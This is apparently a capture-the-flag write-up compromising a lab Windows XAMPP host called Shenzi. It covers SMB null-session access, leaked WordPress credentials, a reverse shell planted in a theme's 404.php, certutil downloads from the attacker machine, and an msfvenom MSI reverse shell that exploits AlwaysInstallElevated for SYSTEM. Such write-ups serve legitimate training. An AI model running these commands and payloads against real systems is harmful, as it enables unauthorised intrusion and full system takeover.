







Writeup by wook413
As per my standard methodology, I initiated the assessment with three Nmap scans: a comprehensive scan of all 65,535 TCP ports, a targeted service/version scan on identified open ports, and a fast scan of the top 10 UDP ports.
x┌──(kali㉿kali)-[~/Desktop]└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-08 18:50 UTCNmap scan report for 192.168.188.55Host is up (0.054s latency).Not shown: 65022 closed tcp ports (reset), 498 filtered tcp ports (no-response)Some closed ports may be reported as filtered due to --defeat-rst-ratelimitPORT STATE SERVICE21/tcp open ftp80/tcp open http135/tcp open msrpc139/tcp open netbios-ssn443/tcp open https445/tcp open microsoft-ds3306/tcp open mysql5040/tcp open unknown7680/tcp open pando-pub49664/tcp open unknown49665/tcp open unknown49666/tcp open unknown49667/tcp open unknown49668/tcp open unknown49669/tcp open unknown
Nmap done: 1 IP address (1 host up) scanned in 16.91 seconds┌──(kali㉿kali)-[~/Desktop]└─$ nmap $IP -sC -sV -p 21,80,135,139,445,3306,5040,7680,49664-49669Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-08 18:52 UTCNmap scan report for 192.168.188.55Host is up (0.047s latency).
PORT STATE SERVICE VERSION21/tcp open ftp FileZilla ftpd 0.9.41 beta| ftp-syst: |_ SYST: UNIX emulated by FileZilla80/tcp open http Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)| http-title: Welcome to XAMPP|_Requested resource was <http://192.168.188.55/dashboard/>|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6135/tcp open msrpc Microsoft Windows RPC139/tcp open netbios-ssn Microsoft Windows netbios-ssn445/tcp open microsoft-ds?3306/tcp open mysql MariaDB 10.3.24 or later (unauthorized)5040/tcp open unknown7680/tcp open pando-pub?49664/tcp open msrpc Microsoft Windows RPC49665/tcp open msrpc Microsoft Windows RPC49666/tcp open msrpc Microsoft Windows RPC49667/tcp open msrpc Microsoft Windows RPC49668/tcp open msrpc Microsoft Windows RPC49669/tcp open msrpc Microsoft Windows RPCService Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:| smb2-security-mode: | 3:1:1: |_ Message signing enabled but not required| smb2-time: | date: 2026-02-08T18:55:05|_ start_date: N/A
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .Nmap done: 1 IP address (1 host up) scanned in 175.58 seconds┌──(kali㉿kali)-[~/Desktop]└─$ nmap $IP -sU --top-ports 10 Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-08 18:55 UTCNmap scan report for 192.168.188.55Host is up (0.054s latency).
PORT STATE SERVICE53/udp closed domain67/udp closed dhcps123/udp open|filtered ntp135/udp closed msrpc137/udp open|filtered netbios-ns138/udp open|filtered netbios-dgm161/udp closed snmp445/udp closed microsoft-ds631/udp closed ipp1434/udp closed ms-sql-m
Nmap done: 1 IP address (1 host up) scanned in 8.60 secondsI confirmed that FTP on port 21 does not permit anonymous login.
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ ftp $IPConnected to 192.168.188.55.220-FileZilla Server version 0.9.41 beta220-written by Tim Kosse (Tim.Kosse@gmx.de)220 Please visit <http://sourceforge.net/projects/filezilla/>Name (192.168.188.55:kali): anonymous331 Password required for anonymousPassword: 530 Login or password incorrect!ftp: Login failedftp> While the Nmap’s SMB scripts yielded no useful results, I discovered that the SMB server allowed Null Authentication .
┌──(kali㉿kali)-[~/Desktop]└─$ nmap $IP -sV --script=smb-enum-shares,smb-enum-users,vuln -p 139,445Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-08 19:00 UTCNmap scan report for 192.168.188.55Host is up (0.049s latency).
PORT STATE SERVICE VERSION139/tcp open netbios-ssn Microsoft Windows netbios-ssn445/tcp open microsoft-ds?Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:|_smb-vuln-ms10-054: false|_samba-vuln-cve-2012-1182: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR|_smb-vuln-ms10-061: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .Nmap done: 1 IP address (1 host up) scanned in 39.37 seconds┌──(kali㉿kali)-[~/Desktop]└─$ smbclient -N -L //$IP
Sharename Type Comment --------- ---- ------- IPC$ IPC Remote IPC Shenzi Disk Reconnecting with SMB1 for workgroup listing.do_connect: Connection to 192.168.188.55 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)Unable to connect with SMB1 -- no workgroup availableThis let me identify the IPC$ and shenzi shares, the latter being a non-default share containing several files.
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ smbclient //$IP/ShenziPassword for [WORKGROUP\\kali]:Try "help" to get a list of possible commands.smb: \\> ls . D 0 Thu May 28 15:45:09 2020 .. D 0 Thu May 28 15:45:09 2020 passwords.txt A 894 Thu May 28 15:45:09 2020 readme_en.txt A 7367 Thu May 28 15:45:09 2020 sess_klk75u2q4rpgfjs3785h6hpipp A 3879 Thu May 28 15:45:09 2020 why.tmp A 213 Thu May 28 15:45:09 2020 xampp-control.ini A 178 Thu May 28 15:45:09 2020
12941823 blocks of size 4096. 6285396 blocks availableTo streamline the inspection process, I mounted the entire shenzi share locally rather than downloading files individually.
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ sudo mount -t cifs -o username=wook,password=wook,domain=. //$IP/Shenzi test/
┌──(kali㉿kali)-[~/Desktop/test]└─$ ls -latotal 25drwxr-xr-x 2 root root 4096 May 28 2020 .drwxr-xr-x 2 root root 4096 May 28 2020 ..-rwxr-xr-x 1 root root 894 May 28 2020 passwords.txt-rwxr-xr-x 1 root root 7367 May 28 2020 readme_en.txt-rwxr-xr-x 1 root root 3879 May 28 2020 sess_klk75u2q4rpgfjs3785h6hpipp-rwxr-xr-x 1 root root 213 May 28 2020 why.tmp-rwxr-xr-x 1 root root 178 May 28 2020 xampp-control.iniWithin the share, I found a passwords.txt file containing credentials for Wordpress CMS — a critical finding for the next stage of the attack.
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop/test]└─$ cat passwords.txt ### XAMPP Default Passwords ###
1) MySQL (phpMyAdmin):
User: root Password: (means no password!)
2) FileZilla FTP:
[ You have to create a new user on the FileZilla Interface ]
3) Mercury (not in the USB & lite version):
Postmaster: Postmaster (postmaster@localhost) Administrator: Admin (admin@localhost)
User: newuser Password: wampp
4) WEBDAV:
User: xampp-dav-unsecure Password: ppmax2011 Attention: WEBDAV is not active since XAMPP Version 1.7.4. For activation please comment out the httpd-dav.conf and following modules in the httpd.conf LoadModule dav_module modules/mod_dav.so LoadModule dav_fs_module modules/mod_dav_fs.so Please do not forget to refresh the WEBDAV authentification (users and passwords).
5) WordPress:
User: admin Password: FeltHeadwallWight357Although HTTP was active on port 80, the http-enum script failed to find any interesting directories.
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ nmap $IP -sV --script=http-enum -p 80 Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-02-08 19:23 UTCNmap scan report for 192.168.188.55Host is up (0.047s latency).
PORT STATE SERVICE VERSION80/tcp open http Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6| http-enum: | /icons/: Potentially interesting folder w/ directory listing|_ /img/: Potentially interesting directory w/ listing on 'apache/2.4.43 (win64) openssl/1.1.1g php/7.4.6'
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .Nmap done: 1 IP address (1 host up) scanned in 17.53 secondsThe landing page was a standard default page that only provided access to phpinfo().


Initial directory brute-forcing with gobuster returned several results, but none provided a clear path forward.
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ gobuster dir -u <http://$IP/dashboard> -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,asp,xml,html,js,sql,gz,zip===============================================================Gobuster v3.6by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)===============================================================[+] Url: <http://192.168.188.55/dashboard>[+] Method: GET[+] Threads: 10[+] Wordlist: /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt[+] Negative Status codes: 404[+] User Agent: gobuster/3.6[+] Extensions: html,js,sql,gz,zip,php,asp,xml[+] Timeout: 10s===============================================================Starting gobuster in directory enumeration mode===============================================================/.html (Status: 403) [Size: 1046]/index.html (Status: 200) [Size: 7576]/images (Status: 301) [Size: 351] [--> <http://192.168.188.55/dashboard/images/>]/faq.html (Status: 200) [Size: 31751]/docs (Status: 301) [Size: 349] [--> <http://192.168.188.55/dashboard/docs/>]/Images (Status: 301) [Size: 351] [--> <http://192.168.188.55/dashboard/Images/>]/de (Status: 301) [Size: 347] [--> <http://192.168.188.55/dashboard/de/>]/fr (Status: 301) [Size: 347] [--> <http://192.168.188.55/dashboard/fr/>]/it (Status: 301) [Size: 347] [--> <http://192.168.188.55/dashboard/it/>]/FAQ.html (Status: 200) [Size: 31751]/es (Status: 301) [Size: 347] [--> <http://192.168.188.55/dashboard/es/>]/pl (Status: 301) [Size: 347] [--> <http://192.168.188.55/dashboard/pl/>]/howto.html (Status: 200) [Size: 6021]/tr (Status: 301) [Size: 347] [--> <http://192.168.188.55/dashboard/tr/>]/Index.html (Status: 200) [Size: 7576]/ru (Status: 301) [Size: 347] [--> <http://192.168.188.55/dashboard/ru/>]/jp (Status: 301) [Size: 347] [--> <http://192.168.188.55/dashboard/jp/>]<SNIP>Following a sudden hunch, I tried appending /shenzi, the name of the SMB share, to the target IP address. This successfully revealed a hidden WordPress installation.

I ran a subsequent gobuster scan against the /shenzi directory and located the /admin path, which redirected to wp-login.php
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ gobuster dir -u <http://$IP/shenzi> -w /usr/share/seclists/Discovery/Web-Content/common.txt ===============================================================Gobuster v3.6by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)===============================================================[+] Url: <http://192.168.188.55/shenzi>[+] Method: GET[+] Threads: 10[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/common.txt[+] Negative Status codes: 404[+] User Agent: gobuster/3.6[+] Timeout: 10s===============================================================Starting gobuster in directory enumeration mode===============================================================/.hta (Status: 403) [Size: 1046]/.htaccess (Status: 403) [Size: 1046]/.htpasswd (Status: 403) [Size: 1046]/0 (Status: 301) [Size: 0] [--> <http://192.168.188.55/shenzi/0/>]/2020 (Status: 301) [Size: 0] [--> <http://192.168.188.55/shenzi/2020/>]/H (Status: 301) [Size: 0] [--> <http://192.168.188.55/shenzi/2020/05/28/hello-world/>]/S (Status: 301) [Size: 0] [--> <http://192.168.188.55/shenzi/sample-page/>]/admin (Status: 302) [Size: 0] [--> <http://192.168.188.55/shenzi/wp-admin/>]/atom (Status: 301) [Size: 0] [--> <http://192.168.188.55/shenzi/feed/atom/>]/aux (Status: 403) [Size: 1046]/com1 (Status: 403) [Size: 1046]/com2 (Status: 403) [Size: 1046]/com3 (Status: 403) [Size: 1046]/com4 (Status: 403) [Size: 1046]/con (Status: 403) [Size: 1046]/dashboard (Status: 302) [Size: 0] [--> <http://192.168.188.55/shenzi/wp-admin/>]/embed (Status: 301) [Size: 0] [--> <http://192.168.188.55/shenzi/embed/>]/feed (Status: 301) [Size: 0] [--> <http://192.168.188.55/shenzi/feed/>]Using the credentials found earlier in passwords.txt , I successfully authenticated to the WordPress dashboard.


Leveraging the Theme Editor in the WordPress admin panel, I found I could overwrite existing files. I replaced the content of 404.php with an Ivan-Sincek.php reverse shell payload.

By navigating to the modified /404.php page, I triggered the payload and established a reverse shell as the user shenzi

shenziWhen visited again /shenzi/404.php after updating the file.
┌──(kali㉿kali)-[~/Desktop]└─$ rlwrap nc -lvnp 443 listening on [any] 443 ...connect to [192.168.45.229] from (UNKNOWN) [192.168.188.55] 55589SOCKET: Shell has connected! PID: 1640Microsoft Windows [Version 10.0.19042.1526](c) Microsoft Corporation. All rights reserved.
C:\\xampp\\htdocs\\shenzi>whoamishenzi\\shenziFound local.txt
C:\\Users\\shenzi\\Desktop>type local.txt0e5...C:\\Users\\shenzi\\Desktop>whoami /priv
PRIVILEGES INFORMATION----------------------
Privilege Name Description State ============================= ==================================== ========SeShutdownPrivilege Shut down the system DisabledSeChangeNotifyPrivilege Bypass traverse checking Enabled SeUndockPrivilege Remove computer from docking station DisabledSeIncreaseWorkingSetPrivilege Increase a process working set DisabledSeTimeZonePrivilege Change the time zone DisabledTo identify potential escalation vectors, I transferred PrivescCheck.ps1 to the target host and executed it.
C:\\Users\\shenzi\\Desktop>certutil -urlcache -split -f <http://192.168.45.229/PrivescCheck.ps1> PrivescCheck.ps1**** Online **** 000000 ... 03644aCertUtil: -URLCache command completed successfully.powershell -ep bypass -c ". .\\PrivescCheck.ps1; Invoke-PrivescCheck -Format TXT,HTML"The script flagged the AlwaysInstallElevated policy as being enabled, which allows Windows Installer (MSI) packages to run with elevated privileges.
xxxxxxxxxx????????????????????????????????????????????????????????????????? ~~~ PrivescCheck Summary ~~~ ????????????????????????????????????????????????????????????????? TA0001 - Initial Access - Hardening - BitLocker Low TA0004 - Privilege Escalation - Configuration - MSI AlwaysInstallElevated High - Updates - Update History Medium TA0006 - Credential Access - Hardening - Credential Guard Low - Hardening - LSA Protection LowAlwaysInstallElevated
Windows installer files (also known as .msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it.
However, these can be configured to run with elevated privileges from any user account.
This could potentially allows us to generate a malicious .msi files that would run with admin privileges.
This method requires both HKCU and HKLM registry values to be set to 1 . Otherwise the exploitation will not be possible.
xxxxxxxxxxC:\\Users\\shenzi\\Desktop>reg query HKCU\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer /v AlwaysInstallElevated
HKEY_CURRENT_USER\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer AlwaysInstallElevated REG_DWORD 0x1
C:\\Users\\shenzi\\Desktop>reg query HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer /v AlwaysInstallElevated
HKEY_LOCAL_MACHINE\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer AlwaysInstallElevated REG_DWORD 0x1I generated a malicious .msi reverse shell payload using msfvenom .
xxxxxxxxxx┌──(kali㉿kali)-[~/Desktop]└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.229 LPORT=80 -f msi -o wook.msi[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload[-] No arch selected, selecting arch: x64 from the payloadNo encoder specified, outputting raw payloadPayload size: 460 bytesFinal size of msi file: 159744 bytesSaved as: wook.msiAfter transferring and executing the payload on the target, I successfully obtained a shell with SYSTEM privileges.
xxxxxxxxxxC:\\Users\\shenzi\\Desktop>certutil -urlcache -split -f <http://192.168.45.229:8888/wook.msi>**** Online **** 000000 ... 027000CertUtil: -URLCache command completed successfully.C:\\Users\\shenzi\\Desktop>msiexec /quiet /qn /i C:\\Users\\shenzi\\Desktop\\wook.msiSYSTEM┌──(kali㉿kali)-[~/Desktop]└─$ rlwrap nc -lvnp 80 listening on [any] 80 ...connect to [192.168.45.229] from (UNKNOWN) [192.168.188.55] 55625Microsoft Windows [Version 10.0.19042.1526](c) Microsoft Corporation. All rights reserved.
C:\\WINDOWS\\system32>whoamiwhoamint authority\\systemfound proof.txt
C:\\Users\\Administrator\\Desktop>type proof.txttype proof.txt1c1...